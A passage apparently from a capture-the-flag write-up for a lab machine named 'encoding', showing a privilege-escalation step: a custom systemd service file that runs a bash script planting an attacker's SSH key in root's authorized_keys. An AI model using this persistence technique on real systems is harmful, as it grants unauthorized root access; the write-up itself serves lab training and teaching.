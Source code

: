 ```
WantedBy=multi-user.target

```

It sets up the user, the environment, and the commands that run on start, reload, and stop.

### Exploit

svc can edit files like `pm2-root.service`, but that risks taking down the webserver for the box. I’ll make my own. ChatGPT will give me a quick template:

[![image-20230412125943657](/img/image-20230412125943657.png)*Click for full size image*](/img/image-20230412125943657.png)

I’ll use `vim` as svc to write the service:

```

svc@encoding:/etc/systemd$ vim system/0xdf.service

```

As www-data I’ll verify it’s correct:

```

www-data@encoding:/etc/systemd/system$ cat 0xdf.service 
[Unit]
Description=0xdf command service

[Service]
ExecStart=/tmp/0xdf
Type=simple
Restart=always

[Install]
WantedBy=multi-user.target

```

`/tmp/0xdf` will look very similar to the git hook from earlier:

```

#!/bin/bash

mkdir -p /root/.ssh
chmod 700 /root/.ssh
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing' > /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
touch /tmp/script_ran

```

And I’ll make sure to `chmod +x /tmp/0xdf`.

